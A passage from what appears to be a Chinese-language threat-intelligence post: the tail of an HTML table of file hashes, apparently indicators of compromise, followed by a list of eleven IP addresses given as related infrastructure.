255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">9AF03BFAFEDD0A957A5C936FBBC4FBB5897F6252</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">DD63DD735DD6DC8B3CB74C5A24CC13138414B3C41947618C3DD9408ED430BF79</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">8A3E1176CB160FB42357FA3F46F0CBDE</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">E77427EAFC1AD985D83A37F68492318AFFAF466F</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">4ABACEF49032666C0D0B4A006368386BDC6C0367F6C5E21B022B650FB8DABDBC</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">8D92E79B7940F0AC5B01BBB77737CA6C</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">05168A7A2816DC792D80F0A7C65B102B38E93BF1</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">1C39DBF66A362DF572AF7AD64164CC7D70A8875DB68A710979D243760D8C027B</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">95EAA3FA47A609CEEFA24E8C7787BD99</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">46EE0AAC6D64415146792C40A7F94989B5510107</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">E5F9A505082501B32D442A3FA6A9FB40A48B7DA91A5A0EFC5677BED5401E0C2B</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">96EE8CC2EDC8227A640CEF77D4A24E83</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">F836182A8A93DB7985CDD67A5C1F5DBBF90BBE2A</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2A397594A3B009DF342886A3480264A8773971559C79C8F95B1319EAE77C55D6</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">AAF34C27EDFC3531CF1CF2F2E9A9C45B</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">069A400624F2FCF69BCA8A43FD52C05E95758927</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">DD2C66661D94F007D87754DCBC1ACE9F228785676632A39FEF2CE0E26D54E206</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">BA32F4EEF7DE6BAE9507A63BDE1A43AA</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2D877399E481A6EBDED108631B55FF049C3316F4</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">52BD9E57F7DB2716D2EC570BC9A5DE9BA96BC620EDB3AC9469B5B131B004A030</span></span></section></td></tr></tbody></table>  
  
IP地址:  
```
116.203.104.203
130.61.64.122
161.97.219.84
130.61.69.123
185.84.81.194
54.36.111.116
192.3.165.37
162.243.19.47
63.231.92.27
80.152.203.134
42.112.26.36
```  
  
